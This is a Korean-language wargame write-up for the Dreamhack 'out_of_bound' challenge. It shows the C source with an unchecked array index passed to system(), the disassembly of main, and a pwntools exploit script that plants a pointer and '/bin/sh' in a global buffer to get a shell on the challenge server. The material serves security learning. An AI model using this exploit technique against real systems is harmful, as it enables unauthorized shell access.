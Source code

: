 out_of_bound
===

# Description

> 이 문제는 서버에서 작동하고 있는 서비스(out_of_bound)의 바이너리와 소스 코드가 주어집니다.
> 프로그램의 취약점을 찾고 익스플로잇해 셸을 획득하세요.
> “flag” 파일을 읽어 워게임 사이트에 인증하면 점수를 획득할 수 있습니다.
> 플래그의 형식은 DH{…} 입니다.

# Source code

> \#include &#60;stdio.h&#62;
>
> \#include &#60;stdlib.h&#62;
>
> \#include &#60;signalA.h&#62;
>
> \#include &#60;unistd.h&#62;
>
> \#include &#60;string.h&#62;
>
> 
>
> char name[16];
>
> 
>
> char *command[10] = { "cat",
>
>   "ls",
>
>   "id",
>
>   "ps",
>
>   "file ./oob" };
>
> void alarm_handler()
>
> {
>
>   puts("TIME OUT");
>
>   exit(-1);
>
> }
>
> 
>
> void initialize()
>
> {
>
>   setvbuf(stdin, NULL, _IONBF, 0);
>
>   setvbuf(stdout, NULL, _IONBF, 0);
>
> 
>
>   signal(SIGALRM, alarm_handler);
>
>   alarm(30);
>
> }
>
> 
>
> int main()
>
> {
>
>   int idx;
>
> 
>
>   initialize();
>
> 
>
>   printf("Admin name: ");
>
>   read(0, name, sizeof(name));
>
>   printf("What do you want?: ");
>
> 
>
>   scanf("%d", &idx);
>
> 
>
>   system(command[idx]);
>
> 
>
>   return 0;
>
> }

system이라는 명령어 에서는 안에있는 명령어를 실행한다. command는 index를 확인하지 않기 때문에 이를 이용한다. 그런데 command는 포인터 이므로 포인터를 이용해야 한다. 따라서 name[0]~name[3]은 name[4]의 주솟값을 넣고, name[4]에 /bin/sh를 넣는다. command의 index를 이용해 이 코드가 실행되도록 한다. 

# Result

> Dump of assembler code for function main:
>    0x080486cb <+0&#62;:	lea    ecx,[esp+0x4]
>    0x080486cf <+4&#62;:	and    esp,0xfffffff0
>    0x080486d2 <+7&#62;:	push   DWORD PTR [ecx-0x4]
>    0x080486d5 <+10&#62;:	push   ebp
>    0x080486d6 <+11&#62;:	mov    ebp,esp
>    0x080486d8 <+13&#62;:	push   ecx
>    0x080486d9 <+14&#62;:	sub    esp,0x14
>    0x080486dc <+17&#62;:	mov    eax,gs:0x14
>    0x080486e2 <+23&#62;:	mov    DWORD PTR [ebp-0xc],eax
>    0x080486e5 <+26&#62;:	xor    eax,eax
>    0x080486e7 <+28&#62;:	call   0x804867b <initialize&#62;
>    0x080486ec <+33&#62;:	sub    esp,0xc
>    0x080486ef <+36&#62;:	push   0x8048811
>    0x080486f4 <+41&#62;:	call   0x80484b0 <printf@plt&#62;
>    0x080486f9 <+46&#62;:	add    esp,0x10
>    0x080486fc <+49&#62;:	sub    esp,0x4
>    0x080486ff <+52&#62;:	push   0x10
>    0x08048701 <+54&#62;:	push   0x804a0ac
>    0x08048706 <+59&#62;:	push   0x0
>    0x08048708 <+61&#62;:	call   0x80484a0 <read@plt&#62;
>    0x0804870d <+66&#62;:	add    esp,0x10
>    0x08048710 <+69&#62;:	sub    esp,0xc
>    0x08048713 <+72&#62;:	push   0x804881e
>    0x08048718 <+77&#62;:	call   0x80484b0 <printf@plt&#62;
>    0x0804871d <+82&#62;:	add    esp,0x10
>    0x08048720 <+85&#62;:	sub    esp,0x8
>    0x08048723 <+88&#62;:	lea    eax,[ebp-0x10]
>    0x08048726 <+91&#62;:	push   eax
>    0x08048727 <+92&#62;:	push   0x8048832
>    0x0804872c <+97&#62;:	call   0x8048540 <&#95;_scanf@plt&#62;
>    0x08048731 <+102&#62;:	add    esp,0x10
>    0x08048734 <+105&#62;:	mov    eax,DWORD PTR [ebp-0x10]
>    0x08048737 <+108&#62;:	mov    eax,DWORD PTR [eax*4+0x804a060]
>    0x0804873e <+115&#62;:	sub    esp,0xc
>    0x08048741 <+118&#62;:	push   eax
>    0x08048742 <+119&#62;:	call   0x8048500 <system@plt&#62;
>    0x08048747 <+124&#62;:	add    esp,0x10
>    0x0804874a <+127&#62;:	mov    eax,0x0
>    0x0804874f <+132&#62;:	mov    edx,DWORD PTR [ebp-0xc]
>    0x08048752 <+135&#62;:	xor    edx,DWORD PTR gs:0x14
>    0x08048759 <+142&#62;:	je     0x8048760 <main+149&#62;
>    0x0804875b <+144&#62;:	call   0x80484e0 <__stack_chk_fail@plt&#62;
>    0x08048760 <+149&#62;:	mov    ecx,DWORD PTR [ebp-0x4]
>    0x08048763 <+152&#62;:	leave  
>    0x08048764 <+153&#62;:	lea    esp,[ecx-0x4]
>    0x08048767 <+156&#62;:	ret  

소스코드는 다음과 같다. 입력이 되는 61번 read와 system의 119번을 보고 name과 commend의 주솟값을 알아보겠다.

> 



> 



> 



> from pwn import *
>
> p=remote("host1.dreamhack.games",8257)
> payload=p32(0x804a0b0)
> payload+="/bin/sh"
> p.recvuntil(": ")
> p.sendline(payload)
> p.recvuntil(": ")
> p.sendline("19")
> p.interactive()
>

out_of_bound를 공격하기 위한 코드는 다음과 같다.

# Learned

> gdb-peda를 이용하면 함수에 들어가는 인자를 알 수 있다.
>
> remote(주소,포트)를 통해 원격 저장소에 연결 할 수 있다.
>
> prcess(파일주소)를 통해 local에 있는 파일에 연결할 수 있다.
>
> p32는 32bit little endian으로 packing해준다. 64bit은 p64를 이용한다.
>
> recvuntil은 주어진 문자열이 나올 때 까지 받는다.
>
> sendline은 주어진 문자열을 보낸다.
>
> interactive는 연결된 곳에 상호작용 할 수 있게 한다.
